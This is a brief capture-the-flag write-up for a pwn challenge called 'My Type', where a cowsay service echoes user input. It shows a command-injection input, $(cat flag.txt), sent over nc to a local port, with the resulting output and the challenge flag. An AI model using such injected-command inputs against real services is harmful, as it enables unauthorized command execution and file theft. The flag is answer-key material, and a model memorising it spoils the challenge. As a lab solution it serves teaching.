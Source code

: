 # My Type

## Pwn

### How to go about and choose?  Break it down by shapes and sizes...


This is a Unix manipulation.  Cowsay echos back whatever you input.  If you uses a $() for input you can run Unix commands.

```sh

$ nc localhost 2229
What does Tux say? $(cat flag.txt)
 ________________________________________
< teractf{y0u_kn0w_y0ur3_ju5t_my_typ3!}  >
 ----------------------------------------
   \
    \
        .--.
       |o_o |
       |:_/ |
      //   \ \
     (|     | )
    /'\_   _/`\
    \___)=(___/

```

**teractf{y0u_kn0w_y0ur3_ju5t_my_typ3!}**
